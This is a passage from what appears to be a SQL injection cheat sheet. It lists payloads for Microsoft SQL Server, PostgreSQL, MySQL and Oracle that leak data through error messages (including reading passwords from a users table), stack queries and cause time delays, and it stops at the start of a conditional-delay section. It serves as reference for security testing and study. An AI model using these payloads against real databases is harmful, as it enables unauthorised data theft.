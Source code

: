 ### Extracting data via visible error messages <a href="#extracting-data-via-visible-error-messages" id="extracting-data-via-visible-error-messages"></a>

You can potentially elicit error messages that leak sensitive data returned by your malicious query.

| Microsoft  | <p><code>SELECT 'foo' WHERE 1 = (SELECT 'secret')</code><br><br><code>> Conversion failed when converting the varchar value 'secret' to data type int.</code></p> |
| ---------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| PostgreSQL | <p><code>SELECT CAST((SELECT password FROM users LIMIT 1) AS int)</code><br><br><code>> invalid input syntax for integer: "secret"</code></p>                     |
| MySQL      | <p><code>SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))</code><br><br><code>> XPATH syntax error: '\secret'</code></p>               |

### Batched (or stacked) queries <a href="#batched-or-stacked-queries" id="batched-or-stacked-queries"></a>

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

| Oracle     | `Does not support batched queries.` |
| ---------- | ----------------------------------- |
| Microsoft  | `QUERY-1-HERE; QUERY-2-HERE`        |
| PostgreSQL | `QUERY-1-HERE; QUERY-2-HERE`        |
| MySQL      | `QUERY-1-HERE; QUERY-2-HERE`        |

**Note**

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.

### Time delays <a href="#time-delays" id="time-delays"></a>

You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10 seconds.

| Oracle     | `dbms_pipe.receive_message(('a'),10)` |
| ---------- | ------------------------------------- |
| Microsoft  | `WAITFOR DELAY '0:0:10'`              |
| PostgreSQL | `SELECT pg_sleep(10)`                 |
| MySQL      | `SELECT SLEEP(10)`                    |

### Conditional time delays <a href="#conditional-time-delays" id="conditional-time-delays"></a>

You can test a single boolean condition and trigger a time delay if the condition is true.
